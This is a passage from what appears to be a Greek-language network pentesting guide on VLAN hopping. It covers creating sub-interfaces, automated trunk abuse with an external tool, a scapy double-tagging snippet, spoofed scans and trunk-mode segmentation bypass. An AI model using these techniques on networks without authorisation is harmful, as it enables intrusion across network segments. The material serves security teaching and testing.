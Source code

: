 ```bash
# Another configuration example
modprobe 8021q
vconfig add eth1 20
ifconfig eth1.20 192.168.1.2 netmask 255.255.255.0 up
```

```bash
# Another configuration example
sudo vconfig add eth0 30
sudo ip link set eth0.30 up
sudo dhclient -v eth0.30
```
#### Αυτόματος VLAN Hopper

Η συζητούμενη επίθεση του **Δυναμικού Trunking και δημιουργίας εικονικών διεπαφών και ανακάλυψης υπολογιστών μέσα σε άλλα VLANs** εκτελείται **αυτόματα** από το εργαλείο: [**https://github.com/nccgroup/vlan-hopping---frogger**](https://github.com/nccgroup/vlan-hopping---frogger)

#### Διπλή Επισήμανση

Αν ένας επιτιθέμενος γνωρίζει την τιμή του **MAC, IP και VLAN ID του θύματος**, μπορεί να προσπαθήσει να **επισημάνει διπλά ένα πλαίσιο** με τον σχεδιασμένο VLAN του και το VLAN του θύματος και να στείλει ένα πακέτο. Καθώς το **θύμα δεν θα μπορεί να συνδεθεί πίσω** με τον επιτιθέμενο, η **καλύτερη επιλογή για τον επιτιθέμενο είναι η επικοινωνία μέσω UDP** σε πρωτόκολλα που μπορούν να εκτελέσουν κάποιες ενδιαφέρουσες ενέργειες (όπως το SNMP).

Μια άλλη επιλογή για τον επιτιθέμενο είναι να εκτελέσει ένα **σάρωση θυρών TCP παραποιώντας μια IP που ελέγχεται από τον επιτιθέμενο και είναι προσβάσιμη από το θύμα** (πιθανώς μέσω διαδικτύου). Στη συνέχεια, ο επιτιθέμενος μπορεί να κατακρατήσει στον δεύτερο υπολογιστή που του ανήκει αν λάβει κάποια πακέτα από το θύμα.

![](<../../.gitbook/assets/image (635) (1).png>)

Για να εκτελέσετε αυτήν την επίθεση, μπορείτε να χρησιμοποιήσετε το scapy: `pip install scapy`
```python
from scapy.all import *
# Double tagging with ICMP packet (the response from the victim isn't double tagged so it will never reach the attacker)
packet = Ether()/Dot1Q(vlan=1)/Dot1Q(vlan=20)/IP(dst='192.168.1.10')/ICMP()
sendp(packet)
```
#### Διάβασμα Παράκαμψης Τοπολογίας VLAN <a href="#d679" id="d679"></a>

Εάν έχετε **πρόσβαση σε ένα switch στο οποίο είστε απευθείας συνδεδεμένοι**, έχετε τη δυνατότητα να **παρακάμψετε την τοπολογία VLAN** εντός του δικτύου. Απλά **αλλάξτε τη θύρα σε λειτουργία trunk** (επίσης γνωστή ως trunk), δημιουργήστε εικονικές διεπαφές με τα αναγνωριστικά των επιθυμητών VLAN και ρυθμίστε μια διεύθυνση IP. Μπορείτε να δοκιμάσετε να ζητήσετε τη διεύθυνση δυναμικά (DHCP) ή να τη ρυθμίσετε στατικά. Αυτό εξαρτάται από την περίπτωση.

{% content-ref url="lateral-vlan-segmentation-bypass.md" %}
[lateral-vlan-segmentation-bypass.md](lateral-vlan-segmentation-bypass.md)
{% endcontent-ref %}
